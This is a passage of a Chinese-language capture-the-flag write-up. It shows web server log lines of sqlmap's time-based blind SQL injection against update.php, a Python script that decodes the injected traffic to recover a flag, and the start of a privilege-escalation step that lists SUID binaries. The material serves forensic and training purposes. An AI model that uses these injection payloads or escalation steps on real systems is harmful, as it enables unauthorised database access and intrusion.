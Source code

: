 ```shell
5354 192.168.86.1 - - [20/Jul/2021:05:44:51 -0700] "GET /update.php?keyword=python%27%20WHERE%201462%3D1462%20AND%20%28SELECT%209551%20FROM%20%28SELECT%28SLEEP%283-%28IF%28ORD%28MID%28%28SELECT%20IFNULL%28CAST%28query%20AS%20NCHAR%29%2C0x20%29%20FROM%20sys.x%24statements_with_temp_tables%20ORDER%20BY%20db%20LIMIT%201%2C1%29%2C57%2C1%29%29%3E84%2C0%2C3%29%29%29%29%29mURF%29--%20yPzW&text=python3 HTTP/1.1" 200 327 "http://192.168.86.128:80/update.php" "sqlmap/1.5.7.4#dev (http://sqlmap.org)"
3005380 192.168.86.1 - - [20/Jul/2021:05:44:51 -0700] "GET /update.php?keyword=python%27%20WHERE%201462%3D1462%20AND%20%28SELECT%209551%20FROM%20%28SELECT%28SLEEP%283-%28IF%28ORD%28MID%28%28SELECT%20IFNULL%28CAST%28query%20AS%20NCHAR%29%2C0x20%29%20FROM%20sys.x%24statements_with_temp_tables%20ORDER%20BY%20db%20LIMIT%201%2C1%29%2C57%2C1%29%29%3E82%2C0%2C3%29%29%29%29%29mURF%29--%20yPzW&text=python3 HTTP/1.1" 200 327 "http://192.168.86.128:80/update.php" "sqlmap/1.5.7.4#dev (http://sqlmap.org)"
3655 192.168.86.1 - - [20/Jul/2021:05:44:54 -0700] "GET /update.php?keyword=python%27%20WHERE%201462%3D1462%20AND%20%28SELECT%209551%20FROM%20%28SELECT%28SLEEP%283-%28IF%28ORD%28MID%28%28SELECT%20IFNULL%28CAST%28query%20AS%20NCHAR%29%2C0x20%29%20FROM%20sys.x%24statements_with_temp_tables%20ORDER%20BY%20db%20LIMIT%201%2C1%29%2C57%2C1%29%29%3E83%2C0%2C3%29%29%29%29%29mURF%29--%20yPzW&text=python3 HTTP/1.1" 200 327 "http://192.168.86.128:80/update.php" "sqlmap/1.5.7.4#dev (http://sqlmap.org)"
4992 192.168.86.1 - - [20/Jul/2021:05:44:54 -0700] "GET /update.php?keyword=python%27%20WHERE%201462%3D1462%20AND%20%28SELECT%209551%20FROM%20%28SELECT%28SLEEP%283-%28IF%28ORD%28MID%28%28SELECT%20IFNULL%28CAST%28query%20AS%20NCHAR%29%2C0x20%29%20FROM%20sys.x%24statements_with_temp_tables%20ORDER%20BY%20db%20LIMIT%201%2C1%2^C
```

对日志文件进行分析，将攻击者的注入流量进行提取

```python
import re, urllib.parse

with open("/var/log/apache2/access.log") as file:
    for line in file:
        line = urllib.parse.unquote(line)
        if not "update.php" in line:
            continue
        regex = re.search("\)\)!=(\d+)", line)
        if regex:
            decimal = int(regex.group(1))
            print(chr(decimal), end="")
# ......
# FARADAY{@cc3ss_10gz_c4n_b3_use3fu111}
```

```plaintext title="Flag"
FARADAY{@cc3ss_10gz_c4n_b3_use3fu111}
```

## Administrator Privesc

根据题目名称，猜测要开始进行提权

```plaintext title="find / -perm -u=s -type f 2>/dev/null"
/snap/core18/2074/bin/mount
/snap/core18/2074/bin/ping
/snap/core18/2074/bin/su
/snap/core18/2074/bin/umount
/snap/core18/2074/usr/bin/chfn
/snap/core18/2074/usr/bin/chsh
/snap/core18/2074/usr/bin/gpasswd
/snap/core18/2074/usr/bin/newgrp
/snap/core18/2074/usr/bin/passwd
/snap/core18/2074/usr/bin/sudo
/snap/core18/2074/usr/lib/dbus-1.0/dbus-daemon-launch-helper
/snap/core18/2074/usr/lib/openssh/ssh-keysign
/snap/core18/1944/bin/mount
/snap/core18/1944/bin/ping
/snap/core18/1944/bin/su
/snap/core18/1944/bin/umount
/snap/core18/1944/usr/bin/chfn
/snap/core18/1944/usr/bin/chsh
```